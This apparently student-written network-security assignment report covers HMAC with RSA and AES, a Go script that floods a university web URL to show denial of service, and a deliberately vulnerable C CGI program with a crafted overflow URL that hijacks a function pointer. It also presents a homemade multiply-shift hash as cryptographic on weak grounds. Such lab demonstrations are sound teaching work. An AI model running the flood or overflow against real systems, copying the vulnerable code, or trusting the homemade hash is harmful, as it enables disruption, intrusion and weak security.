








# HMAC

## Problem Statement

Implement HMAC and verify message integrity,confidentiality and non repudiation.
(Recommeneded to use your own unique hashing algorithm)

## Solution

Language Used: **Rust**

> The code is too big to be included in the report. It's available in
> [github](https://github.com/dipeshkaphle/NetSecAssignment/tree/main/hmac).

### Approach

We must verify Non Repudiation, Confidentiality and Message Integrity. **HMAC**
can be used to verify the **Message Integrity**. We will have to use other
things in order to get **Non Repudiation** and **Confidentiality**. We are using
Public Key Cryptography(in order to get Non Repudiation) and Private Key
Cryptography(in order to get Confidentiality). Namely we're using **RSA** and
**AES**.

Steps we followed are as follow:

1.  Let the message be `MESSAGE`.
2.  Both the sender and receiver have private key and public key of their own.
    Let the public key `PUB(sender)` and private key be `PRIV(sender)`. Similary
    let the public key of receiver be `PUB(receiver)` and private key of
    receiver be `PRIV(receiver)`.
3.  Let `AESKEY` be key for AES. `AESKEY` is known only to the sender initially.
4.  **Sender** encrypts the `AESKEY` with `PUB(receiver)`. Let the result be
    `enc1`
5.  **Sender** will then encrypt `enc1` with `PRIV(sender)`. Let the result be
    `ENC_AES_KEY`.

```rust
let priv_key = rsa::encrypt_private(&rsa::encrypt_public(AES_KEY));
```

6.  **Sender** will now encrypt `MESSAGE` with `AESKEY`. Let the result be
    `ENC_MSG`.
7.  **Sender** will use hmac to generate the signature for `ENC_MSG`.
8.  In our case, we're using two hashing algorithm for hmac. We're using a well
    known and popular cryptographic hashing algorithm `Blake3` and another one
    made by us which we're naming `FibMulCombineHash`.

### FibMulCombineHash description

-   The code is available in `hmac/src/hash.rs`. There are some tests for it as
    well.

`FibMulCombineHash` is a cryptographic hashing algorithm which outputs 128 bit
digest. The inspiration for this algorithm was taken from the book
[The Art of Computer Programming by Donald Knuth, Volume 3,Section 6.4, page 518](https://www.amazon.in/Art-Computer-Programming-Sorting-Searching/dp/0201896850).
The algorithm is extremely fast, because it's just a multiplication followed by
a shift, in order to bring the output to some [0, 2^k^ ) domain. We don't have
the shift state as we want the domain to be full [0, 2^128^ ). The hash function
is known to produce a very uniform distribution of hash values, hence minimizing
collisions.

We hash each input byte with this and combine all of them parallely, which makes
a very good usage of CPU cores. **In order to hash a 2 Mega Byte String, our CPU
usage was well over 200% for this algorithm**. The hash combining strategy is
also just a bunch of shifts and additions which will be very fast. The hash
function has `Avalanche Effect` as well, whcih makes it a very hash function.

| Code for FibMulCombineHash(Part 1) |
| :--------------------------------- |
|                |

| Code for FibMulCombineHash(Part 2) |
| :--------------------------------- |
|                |

| More than 200% CPU usage for 2MB string |
| :-------------------------------------- |
|                |

| Code for 200% CPU usage        |
| :----------------------------- |
|  |

| Avalanche Effect         |
| :----------------------- |
|  |

9. We will send **HMAC** value calculated using both of these hash functions to
   the receiver.
10. Sender will then generate a json file called `sender.json` which follows the
    following struct.

```rust
pub struct SenderStruct {
    // stores ENC_AES_KEY
    pub rsa_enc_aes_key: Vec<u8>,
    // stores  ENC_MSG
    pub aes_encrypted_message: Vec<u8>,
    //stores Hmac of ENC_MSG with Blake3
    pub hmac_blake3: Vec<u8>,
    // Stores Hmac of ENC_MSG with FibMulCombineHash
    pub hmac_custom_hash: Vec<u8>,
}
```

11. **Receiver** will read `sender.json` and get the fields from it.
12. **Receiver** will then verify the `HMAC` for both the hash functions. This
    proves **Message Integrity**.
13. **Receiver** will then go on and decrypt the `ENC_AES_KEY` using
    `PRIV(receiver)` and `PUB(sender)`. It will be

```rust
let aes_priv_key =
   rsa::decrypt_private(&rsa::decrypt_public(&sender_params.rsa_enc_aes_key));
```

14. This RSA decryption proves **Non Repudiation**,since private key of the
    sender was involved in the AESKEY encryption.
15. Now the encrypted message `ENC_MSG` can be decrypted using the `AESKEY`.
    This proves **Confidentiality**

### Output

| Sender Output             |
| :------------------------ |
|  |

| Sender Json                |
| :------------------------- |
|  |

| Receiver Output             |
| :-------------------------- |
|  |

# DOS

## Problem Statement

Demonstrate DOS(Denial of Service) Attack

## Solution

Language Used: **Golang**

### Output

| 100 Requests           |
| :--------------------- |
|  |

| 500 Requests           |
| :--------------------- |
|  |

| 2000 Requests           |
| :---------------------- |
|  |

| 10000 Requests           |
| :----------------------- |
|  |

All the requests were sent to [this url](https://delta.nitt.edu/~dipesh/output).
It's serving contents of a text file.

We can see from the stats, as the no of requests goes up, the average time take
for a request and number of failed requests grows. This is basically a **Denial
Of Service** for the user as it's increasing the latency as well as bringing
down the availability of the service.

### Code

> Code is small enough, so we're including it in the report. It's available in
> [github](https://github.com/dipeshkaphle/NetSecAssignment/tree/main/denial_of_service)

```go

package main
import (
	"fmt"
	"net/http"
	"os"
	"strconv"
	"sync"
	"time"
)
func request() (bool, time.Duration) {
	time_now := time.Now()

	_, err := http.Get("https://delta.nitt.edu/~dipesh/output")
	if err != nil {
		fmt.Errorf("%v", err)
		return false, time.Since(time_now)
	}

	return true, time.Since(time_now)
}
func main() {
	var mt sync.Mutex
	n := os.Getenv("N")
	c := os.Getenv("C")

	loop_cnt := 1
	conc := 1

	if len(n) != 0 {
		tmp, e := strconv.Atoi(n)
		if e == nil {
			loop_cnt = tmp
		}
	}

	if len(c) != 0 {
		tmp, e := strconv.Atoi(c)
		if e == nil {
			conc = tmp
		}
	}
	fmt.Printf("Concurrency Level: %v, Num of Times: %v\n", conc, loop_cnt)

	sCnt := 0
	fCnt := 0
	successTimes := 0.0
	failureTimes := 0.0

	reportChan := make(chan int)
	var reporterWG sync.WaitGroup
	reporterWG.Add(1)

	go func() {
		defer reporterWG.Done()
		prevTime := time.Now()
		for {
			val := <-reportChan
			if val == 0 {
				fmt.Printf("Reporter thread signing off!!\n")
				break
			}
			if val%500 == 0 {
				curTime := time.Now()
				fmt.Printf("Completed %v requests in %v seconds!!\n", val, curTime.Sub(prevTime).Seconds())
				prevTime = curTime
			}
		}
	}()
	totalCnt := 0
	for i := 0; i < loop_cnt; i++ {
		var wg sync.WaitGroup

		for j := 0; j < conc; j++ {
			wg.Add(1)
			go func() {
				defer wg.Done()
				res, time_taken := request()
				if res {
					mt.Lock()
					totalCnt += 1
					sCnt = sCnt + 1
					successTimes = successTimes + time_taken.Seconds()
					reportChan <- totalCnt
					mt.Unlock()
				} else {
					mt.Lock()
					totalCnt += 1
					fCnt = fCnt + 1
					failureTimes = failureTimes + time_taken.Seconds()
					reportChan <- totalCnt
					mt.Unlock()
				}
			}()
		}
		wg.Wait()
	}
	reportChan <- 0
	reporterWG.Wait()
	fmt.Printf("Success: %d, Failure: %d\n", sCnt, fCnt)
	fmt.Printf("Avg Success Time: %v\n", successTimes/float64(sCnt))
	fmt.Printf("Avg Failure Time: %v\n", failureTimes/float64(fCnt))
}

```

# Shrew Attack

# Buffer Overflow

## Problem Statement
Demonstrate Buffer Overflow in TCP.

## Solution

Language Used: **C**

> The code is as follows:
```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

#define QUERY_STRING_LEN 150

static char buffer[100];
static void (*function_pointer)();
static char decoded_string[QUERY_STRING_LEN];

void safe_function() {
    printf("%s\n", "This is the normal flow of execution");
}

void unsafe_function() {
    printf("%s\n", "This function should not be called");
}

void decode_query_string(char *query_string) {
    int j = 0, num;
    char num_str[3];
    num_str[2] = '\0';
    for (int i = 0; i < strlen(query_string) && i < QUERY_STRING_LEN;) {
        if (query_string[i] != '%') {
            decoded_string[j] = query_string[i];
            i++;
        } else {
                i++;
                strncpy(num_str, query_string + i, 2);
                num = atoi(num_str);
                num = (num / 10) * 16 + (num % 10);
                decoded_string[j] = (char)num;
                i += 2;
        }
        j++;
    }
}


int main() {
    function_pointer = &safe_function;
    printf("%s\n\n", "Content-type: text/html");
    decode_query_string(getenv("QUERY_STRING"));
    // UNSAGE: `buffer` length is unchecked in this copy
    // The query string can write beyond this buffer into the `function_pointer`
    // which can cause arbitrary functions to be executed.
    strcpy(buffer, decoded_string);
    //printf("%s\n", buffer);
    (void)(*function_pointer)();
    return 0;
}
```

### Setup
The setup of this exploit can be done easily using Docker. The entire setup has
been dockerized. Download the files from
[GitHub](https://github.com/dipeshkaphle/NetSecAssignment/tree/main/buffer_overflow)
and run
```shell
$ docker-compose build
$ docker-compose up -d
```
The vulnerable binary can now be accessed locally from
`http://localhost:8000/cgi-bin/vuln`

### Approach
We host a vulnerable C binary file over a web server (like Apache) as a CGI
program. CGI programs are used commonly in web applications. An unsafe program
such as the one written above can easily be exploited to execute arbitrary code.

The unsafe portion of the code is in the unchecked use of the C standard library
function `strcpy`
```C
strcpy(buffer, decoded_string);
```

If `decoded_string` has more characters than the size of `buffer` (which is
100), it may overwrite beyond its designated region of memory. In this case, the
program is written to make sure that `function_pointer` will be adjacent to
`buffer` in memory. Thus, the address in the `function_pointer` can be
overwritten to any value. We demonstrate one case where it is overwritten by
another function's address (`unsafe_function`). `unsafe_function` is just used
as a proof-of-concept. In practice, buffer overflows can be used for injecting
*shellcode* which can give access to privileged shells or shutdown the system on
which the program is running. A collection of such shell codes is available at
[shell-storm](http://shell-storm.org/shellcode/index.html).

### Demo
The address of `unsafe_function` is determined as `0x5b1640` using `gdb` debugger.
The program takes input from the query string sent in the request. Sending a
short string like "hello" by visiting `http://localhost:8000/cgi-bin/vuln?hello`
makes the program execute normally and we see the output in the browser as
  

Now, we specially craft an input to overwrite the `function_pointer` with the address of the `unsafe_function`. We
use the character "a" as padding and add the address of the function at the end
(by URL encoding it). Now, by making a request to
`http://localhost:8000/cgi-bin/vuln?aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[%16@`
we see that `unsafe_function` is executed!
.

**Note**: The adress of `unsafe_function` might be different on your system. Thus the URL would change based on this address.

# Illegal Packet
